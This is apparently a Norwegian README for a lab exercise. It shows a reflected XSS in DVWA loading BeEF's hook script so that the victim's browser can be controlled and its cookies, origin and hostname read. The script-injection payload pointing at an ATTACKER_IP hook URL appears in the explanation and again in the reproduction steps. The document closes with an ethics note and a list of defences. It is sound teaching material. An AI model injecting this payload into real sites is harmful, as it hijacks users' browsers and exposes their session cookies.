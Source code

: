 # BeEF + XSS mot DVWA — lab

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](LICENSE)
![Lab Only](https://img.shields.io/badge/Scope-Lab%20Only-blue)

En fiktiv, lukket lab som demonstrerer hvordan en **refleksiv XSS** i DVWA kan brukes til å **hooke en nettleser** i **BeEF**. Deretter inspiseres klientdata i BeEF-panelet for å illustrere risikoen.

> **Ansvar/Etikk:** Dette er kun demonstrasjon i eget labmiljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Maskér alltid sensitive verdier (f.eks. PHPSESSIONID) i skjermbilder.

---

## Mål
- Utløse en **XSS** i DVWA og laste inn BeEFs hook-skript.
- Få offerets nettleser til å dukke opp som **hooked** i BeEF.
- Vise at BeEF kan lese **origin**, **cookies** og **hostname** fra klienten.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux med BeEF (Hook-URL: `http://ATTACKER_IP:3000/hook.js`)
- **Mål:** DVWA (Reflected XSS, Low)
- **Offer:** Nettleser i samme labnett
- IP-adressene i bildene er eksempler; bruk dine egne.

## Hvorfor dette fungerer (kort forklart)
XSS lar oss kjøre vilkårlig JavaScript i offerets nettleser. Når vi injiserer:
```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```
lastes BeEFs **hook** inn i offerets DOM. Nettleseren etablerer da en kontrollkanal tilbake til BeEF-serveren. I BeEFs UI blir offeret synlig, og vi kan lese/operere på utvalgte nettleser-egenskaper (f.eks. cookies, origin). Dette visualiserer risikoen ved XSS.

---

## Evidens (skjermbilder)

**1) BeEF kjører (server/UI oppe)**
![BeEF start](images/beef-start.png)

**2) XSS i DVWA (injiserer hook)**
> Payload demonstrert i DVWA Reflected XSS: `<script src="http://ATTACKER_IP:3000/hook.js"></script>`
![DVWA XSS-injection](images/dvwa-inject.png)

**3) Offer “hooked” i BeEF**
![BeEF victim listed](images/beef-victim-listed.png)

**4) Details-fanen (maskér sensitive felter)**
> Her ser du f.eks. `browser.window.origin`, `browser.window.hostname` og `browser.window.cookies`.
![BeEF details](images/beef-details.png)

---

## Reproduser (kort)
1. **Start BeEF** på angripermaskinen (notér hook-URL, typisk `http://ATTACKER_IP:3000/hook.js`), og logg inn i UI.
2. **Sett DVWA til Low** (Security → Low).
3. Gå til **XSS (Reflected)** i DVWA og injisér:
   ```html
   <script src="http://ATTACKER_IP:3000/hook.js"></script>
   ```
4. Last siden i offer-nettleseren → sjekk BeEF-panelet: offeret vises som **hooked**.  
5. Åpne **Details** for offeret og observer origin/hostname/cookies. **Maskér session-ID** før publisering.

---

## Hva bildene viser (hurtigkart)
- `images/beef-start.png` – BeEF-UI kjører (panel oppe).
- `images/dvwa-inject.png` – Hook injisert via DVWA XSS (Reflected).
- `images/beef-victim-listed.png` – Nettleser dukker opp som hooked i BeEF.
- `images/beef-details.png` – Details-fanen (origin, cookies, hostname) – **sladd cookies**.

### Vedlegg (valgfritt – ekstra kontekst)
- `images/beef-auth.png` – BeEF innloggingsskjerm.  
- `images/beef-console.png` – Konsollutskrift ved oppstart av BeEF.  
- `images/beef-console-and-panel.png` – Konsoll + panel samtidig; viser “New Hooked Browser…”.  
- `images/beef-config-hook.png` – Utdrag av hook-konfig (`hook_file`, `hook_session_name`).

---

## Forsvarstiltak (kort)
- **Input-validering & escaping** på server og klient.
- **CSP** (Content Security Policy) for å begrense eksterne skript.
- **HttpOnly/Secure/SameSite** for cookies; session-hygiene.
- Rammeverksoppdateringer, sikkerhetstester i CI/CD og bevisstgjøring.

## Lisens
MIT
